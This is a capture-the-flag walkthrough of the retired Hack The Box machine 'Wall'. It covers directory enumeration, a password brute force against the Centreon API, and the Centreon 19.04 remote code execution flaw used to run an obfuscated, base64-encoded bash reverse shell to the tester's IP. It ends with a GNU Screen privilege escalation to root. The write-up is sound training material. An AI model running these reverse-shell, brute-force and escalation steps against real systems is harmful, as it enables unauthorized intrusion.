




# Wall

This is the write-up for the box Wall that got retired at the 7th December 2019.
My IP address was 10.10.14.15 while I did this.

Let's put this in our hosts file:
```
10.10.10.157    wall.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/wall.nmap 10.10.10.157
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 2e:93:41:04:23:ed:30:50:8d:0d:58:23:de:7f:2c:15 (RSA)
|   256 4f:d5:d3:29:40:52:9e:62:58:36:11:06:72:85:1b:df (ECDSA)
|_  256 21:64:d0:c0:ff:1a:b4:29:0b:49:e1:11:81:b6:73:66 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web page is the Ubuntu Apache default page.

Lets search for hidden directories with **Gobuster**:
```
gobuster -u http://10.10.10.157 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It finds the directory _/monitoring_ and there it asks for credentials on a **Basic HTTP Authentication** login prompt.
When changing the request method from _GET_ to _POST_, it redirects to _/centreon_:



The software [Centreon](https://www.centreon.com/en/) is an open-source IT infrastructure monitoring platform and here it runs _version 19.04.0_ according to the footer of the page.

Searching for vulnerabilities:
```
searchsploit centreon
```
```
Centreon 19.04 - Remote Code Execution
```

There are **Remote Code Execution vulnerabilities** for this version of **Centreon** but they need authentication.
When trying to login, the login form automatically sends a CSRF-token that makes Brute-Force attacks harder, so that has to be bypassed first.
```
POST /centreon/index.php HTTP/1.1
Host: 10.10.10.157
(...)
useralias=admin&password=test123&submitLogin=Connect&centreon_token=40689610e721d072b95f69d3a682ebfb
```

According to the [Centreon documentation](https://docs.centreon.com/docs/centreon/en/19.04/api/api_rest/), there is an API that can be used for authentication:
```
POST /centreon/api/index.php HTTP/1.1
Host: 10.10.10.157

action=authenticate&username=admin&password=test123
```

It responds with a HTTP status code _401 Unauthorized_ but as it does not need any tokens, it can be used for a **Brute-Force attack**.
The default username for **Centreon** is _admin_, so only the password has to be guessed:
```
wfuzz -u http://10.10.10.157/centreon/api/index.php?action=authenticate -d 'username=admin&password=FUZZ' -w /usr/share/seclists/Passwords/darkweb2017-top1000.txt --hc 403
```

The word _password1_ comes back with a status code _200 OK_ and the credentials let us login into the Centreon platform.

> admin:password1

### Exploiting Centreon

The exploit has the CVE number _CVE-2019-13024_ and it allows the execution of commands in the current users environment.  
```
Configuration --> Pollers --> Configure Pollers --> Central
```



On _Monitoring Engine Binary_ any binary in the context of the current user can be executed:
```
Configuration --> Pollers --> Choose Central --> Export Configuration --> Export
```



It cannot handle spaces, so to use commands with parameters, the **Internal Field Separator** variable will act as a space.
Also it should be Base64-encoded or otherwise it will have too many separators.

Base64-encoding the reverse shell command:
```
echo "bash -i >& /dev/tcp/10.10.14.15/9001 0>&1" | base64
```

Putting _Internal Field Separator variables_ in the command:
```
echo "echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNS85MDAxIDA+JjEK | base64 -d | bash" | sed 's/ /${IFS}/g'
```

Saving the command in the application with a semicolon at the end:
```
echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNS85MDAxIDA+JjEK${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash;
```



Executing the command:
```
Configuration --> Pollers --> Choose Central --> Export Configuration --> Export
```

After exporting the configuration, the command gets executed and the listener on my IP and port 9001 starts a reverse shell session as _www-data_.

## Privilege Escalation

To get an attack surface on the box, it is recommended to run any **Linux Enumeration Script**:
```
wget 10.10.14.15/linPEAS.sh

./linPEAS.sh
```

After enumerating the file system of the box, there is an interesting file in _/opt/.shelby_ called _backup_:
```
file backup

backup: python 2.7 byte-compiled
```

It is a compiled Python file and these can be decompiled with the Python module **uncompyle**.
```
pip install uncompyle
```

Decompiling the Python binary:
```
uncompyle6 backup.pyc
```

This script sends _/var/www/html.zip_ over SSH to _wall.htb_ with the credentials of the user _shelby_.
The password of that user is in the script and can be used to login into SSH:

> shelby:ShelbyPassw@rdIsStrong!

```
ssh shelby@10.10.10.157
```

### Privilege Escalation to root

The binary `screen` is installed in _version 4.5.0_ and this has a privilege escalation vulnerability:
```
searchsploit screen 4.5.0
```
```
GNU Screen 4.5.0 - Local Privilege Escalation
```

Lets copy the PoC code to the box and run it:
```
chmod +x screen_exploit.sh

./screen_exploit.sh
```

After executing the exploit, the command `id` shows that we got root!
